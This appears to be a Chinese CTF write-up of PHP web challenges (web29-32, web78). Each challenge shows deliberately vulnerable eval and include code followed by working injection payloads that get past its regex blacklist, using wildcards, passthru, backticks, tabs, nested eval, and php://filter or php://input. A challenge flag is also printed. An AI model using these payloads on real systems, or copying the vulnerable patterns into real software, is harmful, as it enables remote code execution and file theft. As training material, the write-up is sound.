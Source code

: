 # web入门

## 1.信息收集

## 2.爆破



## 3.命令执行

### Web29

1. 代码审计下

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag/i", $c)){
           eval($c);
       }
       //这里对flag进行了正则匹配过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 通过`GET`请求传递参数，进行代码执行，绕过正则过滤即可

   ```shell
   #查看当前目录下文件
   ?c=system('ls');
   ```

   ![](img/image-20210608182528820.png)

3. 发现有`flag.php`，但是正则过滤了`flag`，这里可以用通配符来绕过

   ```shell
   ?c=system('cat fla?.php');
   
   #php没有显示要查看源代码
   
   #也可以重命名绕过
   ```

   ![](img/image-20210608182811112.png)



### web30

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php/i", $c)){
           eval($c);
       }
       //这里对system/php增加了过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 考虑其他系统执行函数进行绕过，还可以用反引号作为系统命令

   ```shell
   ?c=passthru('ls');
   
   #反引号作为系统命令
   ?c=`cp fla?.??? 1.txt`;
   ```

   ![](img/image-20210608185410026.png)

3. 因为过滤了`php`,`flag`,这里用通配符来，查看flag
   
      ```shell
      ?c=passthru('cat fla*');
      ```
   
      
   
      ![](img/image-20210608190019867.png)



### web31

1. 仍然是代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
           eval($c);
       }
       //在此基础上对cat,sort,shell,.,空格,单引号进行过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里可以构造`eval`函数请求嵌套或者`passthru`函数进行绕过

   ```shell
   ?c=eval($_GET[1]);&1=system('ls');
   
   #passthru函数
   ?c=passthru("ls");
   ```

   ![](img/image-20210608193320346.png)

3. 嵌套函数可以无视正则过滤，但是第二种`passthru`方法，`cat`被过滤了，还可以用`tac`,`more`，单引号被过滤用双引号，空格被过滤用tab键

   ```shell
   ?c=eval($_GET[1]);&1=system('cat flag.php');
   
   #passthru函数
   ?c=passthru("tac%09fla*");
   ```

   ![](img/image-20210608193906927.png)



### web32

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
           eval($c);
       }
       //过滤flag，system，php，cat，sort，shell，点号，空格，单引号,反撇号,echo,(
   }else{
       highlight_file(__FILE__);
   } 
   ```
   
2. 用上一题的方法，嵌套包含flag.php文件逃逸出来

   ```shell
   ?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
   
   #php://filter参考文件包含漏洞中的php伪协议
   
   #得到的文字base64再解码
   ctfshow{2bf658c1-4a45-4dea-8ecd-6379c4f22abf}
   ```

   ![3](img/image-20210608202154453.png)



## 4.文件包含

#### web78

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       include($file);
     //文件包含漏洞
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 利用`php://input`伪协议读取数据

   ```shell
   ?file=php://input
   
   #POST数据
   <?php system('ls');?>
   <?php system('cat flag.php');?>
   ```

   ![](img/image-20210608212022359.png)

